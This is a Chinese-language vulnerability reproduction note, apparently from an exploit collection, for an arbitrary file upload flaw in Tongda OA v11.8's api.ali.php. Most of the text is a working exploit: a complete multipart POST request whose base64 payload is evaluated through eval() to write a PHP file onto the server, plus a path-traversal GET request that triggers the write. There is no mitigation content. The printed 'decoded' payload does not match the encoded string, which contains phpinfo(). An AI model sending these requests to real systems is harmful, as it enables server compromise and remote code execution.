 # 通达OA v11.8 api.ali.php 任意文件上传漏洞

## 漏洞描述

通达OA v11.8 api.ali.php 存在任意文件上传漏洞，攻击者通过漏洞可以上传恶意文件控制服务器

## 漏洞影响

```
通达OA v11.8
```

## 漏洞复现

登陆页面

![image-20220520154337067](images/202205201543147.png)

向 api.ali.php 发送请求包

```
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream

{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==","dataAnalysis":"{\"a\":\"錦',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\"}"}
--502f67681799b07e4de6b503655f5cae--
```

参数a base解码

```
ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==
file_put_contents('../../fb6790f4.php','');
```

![image-20220520154357492](images/202205201543536.png)

再发送GET请求写入文件，页面返回`+OK`

```
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

其中请求中对 2109 为 年月,路径为 `/fb6790f4.php,`

![image-20220520154429920](images/202205201544984.png)